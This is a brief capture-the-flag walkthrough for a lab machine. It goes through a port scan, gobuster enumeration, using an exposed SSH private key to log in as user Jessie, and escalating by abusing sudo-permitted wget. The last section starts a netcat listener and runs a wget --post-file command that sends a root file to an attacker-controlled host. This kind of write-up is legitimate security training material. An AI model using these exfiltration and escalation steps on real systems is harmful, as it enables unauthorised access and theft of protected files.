 
[[CTF Notes]]

---
## Target IP: 10.10.58.138 

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## Recon

- we visit the site hosted by Apache, and check the source. we find a name 'Jessie don't forget to change this'

- ran gobuster `gobuster dir -u http://10.10.58.138 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt`

- we find /sitemap and run the command again on the full url `http://10.10.58.138/sitemap`
 
- returns a dir '.ssh'

- in this is a id_rsa that we can copy to our machine and use to ssh into the user Jessie

### Privelige Escalation

- once inside with ssh we can get the user flag in the Documents dir.

- now time to see how we can get root

- `sudo -l`:

- we are allowed to run wget as sudo!

### Root

- first things first: open a nc listener `nc -nlvp 4445` on the home machine

- `wget --post-file=/root/root_flag.txt http://<YOUR_KALI_IP>:4445`

- this should print the `root_flag.txt` to the home machine!